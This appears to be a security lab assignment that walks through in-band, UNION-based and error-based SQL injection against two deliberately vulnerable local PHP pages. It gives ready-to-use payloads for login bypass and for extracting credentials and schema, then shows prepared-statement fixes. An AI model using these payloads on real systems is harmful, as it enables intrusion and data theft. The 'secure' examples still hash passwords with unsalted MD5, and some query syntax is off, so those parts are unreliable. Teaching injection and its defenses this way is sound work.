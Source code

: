 # SQL Injection Attack Documentation Framework

## Lab Assignment: Advanced SQL Injection Techniques

### Target Applications:
- **login.php**: Vulnerable POST-based login form
- **products.php**: Vulnerable GET-based product lookup

---

## Attack Type 1: In-Band SQL Injection (login.php)

### Objective:
Bypass authentication using basic SQL injection techniques

### Target Query:
```php
$sql = "SELECT username, role, secret_flag FROM users WHERE username = '$username' AND password_hash = MD5('$password')";
```

### Attack Payloads to Test:

#### 1.1 Basic Authentication Bypass
**Username:** `admin' --`
**Password:** `anything`

**Resulting Query:**
```sql
SELECT username, role, secret_flag FROM users WHERE username = 'admin' -- ' AND password_hash = MD5('anything')
```

#### 1.2 OR-based Bypass
**Username:** `' OR '1'='1`
**Password:** `anything`

**Resulting Query:**
```sql
SELECT username, role, secret_flag FROM users WHERE username = '' OR '1'='1' AND password_hash = MD5('anything')
```

#### 1.3 UNION-based Information Extraction
**Username:** `' UNION SELECT username, role, secret_flag FROM users WHERE role='admin' --`
**Password:** `anything`

### Documentation Template:
```
Attack: [Attack Name]
Payload: [Exact payload used]
Result: [Screenshot/Description of result]
Flag Retrieved: [Any flags obtained]
Analysis: [Explanation of why attack worked]
```

---

## Attack Type 2: Union-Based SQL Injection (products.php)

### Objective:
Extract sensitive data from other tables using UNION SELECT

### Target Query:
```php
$sql = "SELECT name, price FROM products WHERE product_id = '$product_id'";
```

### Column Count Discovery:
**Test URL:** `http://localhost/sqli_lab/products.php?id=101' ORDER BY 1--`
**Test URL:** `http://localhost/sqli_lab/products.php?id=101' ORDER BY 2--`
**Test URL:** `http://localhost/sqli_lab/products.php?id=101' ORDER BY 3--`

### Attack Payloads to Test:

#### 2.1 Basic UNION Attack
**URL:** `http://localhost/sqli_lab/products.php?id=101' UNION SELECT 'test1', 'test2'--`

#### 2.2 Extract Users Table
**URL:** `http://localhost/sqli_lab/products.php?id=101' UNION SELECT username, secret_flag FROM users--`

#### 2.3 Extract Admin Credentials
**URL:** `http://localhost/sqli_lab/products.php?id=101' UNION SELECT username, secret_flag FROM users WHERE role='admin'--`

#### 2.4 Database Schema Discovery
**URL:** `http://localhost/sqli_lab/products.php?id=101' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema='assignment_db'--`

---

## Attack Type 3: Error-Based SQL Injection (login.php with errors enabled)

### Setup Required:
Uncomment the error reporting line in login.php:
```php
$message = "Login Failed. MySQL Error: " . $conn->error;
```

### Objective:
Extract information through MySQL error messages

### Attack Payloads to Test:

#### 3.1 Extractversion Information
**Username:** `' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>0 AND 1=CAST((SELECT version()) AS INT) --`

#### 3.2 Extract Database Name
**Username:** `' AND 1=CAST((SELECT database()) AS INT) --`

#### 3.3 Extract Table Names
**Username:** `' AND 1=CAST((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1) AS INT) --`

#### 3.4 Extract Column Names
**Username:** `' AND 1=CAST((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1) AS INT) --`

#### 3.5 Extract Sensitive Data
**Username:** `' AND 1=CAST((SELECT secret_flag FROM users WHERE role='admin' LIMIT 1) AS INT) --`

---

## Defense Implementation

### Secure Code Examples:

#### Prepared Statements (login.php):
```php
$stmt = $conn->prepare("SELECT username, role, secret_flag FROM users WHERE username = ? AND password_hash = MD5(?)");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();
```

#### Prepared Statements (products.php):
```php
$stmt = $conn->prepare("SELECT name, price FROM products WHERE product_id = ?");
$stmt->bind_param("i", $product_id);
$stmt->execute();
$result = $stmt->get_result();
```

---

## Lab Deliverables Checklist:

### Setup Confirmation:
- [ ] login.php accessible with successful alice/password login
- [ ] products.php accessible showing Secure Firewall details
- [ ] Screenshots of both working applications

### Attack Documentation:
- [ ] In-Band SQL injection successful bypass
- [ ] Union-based data extraction completed
- [ ] Error-based information disclosure documented
- [ ] All attack payloads and results documented

### Defense Implementation:
- [ ] Secure versions of both files created
- [ ] Prepared statements implemented
- [ ] Testing confirms vulnerabilities are patched

---

## Common SQL Injection Prevention Techniques:

1. **Prepared Statements / Parameterized Queries**
2. **Input Validation and Sanitization**
3. **Least Privilege Database Access**
4. **Error Message Handling**
5. **Web Application Firewalls (WAF)**

Remember to document each attack with:
- Exact payload used
- Screenshot of result
- Explanation of the technique
- Impact assessment